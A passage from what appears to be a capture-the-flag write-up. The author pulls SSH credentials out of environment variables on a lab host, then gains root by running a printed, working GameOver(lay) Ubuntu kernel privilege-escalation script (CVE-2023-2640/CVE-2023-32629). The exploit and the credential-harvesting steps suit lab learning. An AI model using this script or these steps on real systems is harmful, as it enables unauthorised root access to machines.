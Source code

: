 The command and a snippet of its output are as follows:
```bash
env
```

Among the various entries, two variables stood out:

- META_USER: A username for what seemed to be a system account.
- META_PASS: A password that accompanied the username.

![image](https://github.com/PKHarsimran/PKHarsimran.github.io/assets/22066581/69b825d4-2ea1-468e-a812-b780d248dbd4)

With these credentials in hand, I proceeded to attempt SSH access to the host. Using the META_USER and META_PASS, I was able to successfully authenticate over SSH, gaining a more stable and reliable connection to the target system.

![image](https://github.com/PKHarsimran/PKHarsimran.github.io/assets/22066581/4b027c91-f436-4624-b3a3-b0f58430574a)

This sequence of events—from discovering sensitive environment variables to leveraging them for SSH access and finally locating the user flag—demonstrates a successful user-level compromise of the target system.

## Task 10: Privilege Escalation and Root Flag Acquisition
After stabilizing my SSH foothold as metalytics, I executed the uname -a command to determine the system's kernel version:
```bash
uname -a
```

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```
The output revealed a kernel version potentially vulnerable to recent exploits [(CVE-2023-2640 and CVE-2023-32629)](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629). Armed with this knowledge, I crafted a exploit.sh script in the /tmp directory to exploit these vulnerabilities:

```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
Running this script successfully exploited the kernel vulnerabilities, granting me root privileges. I then navigated to the root user's home directory and listed its contents, where I found the root.txt file:
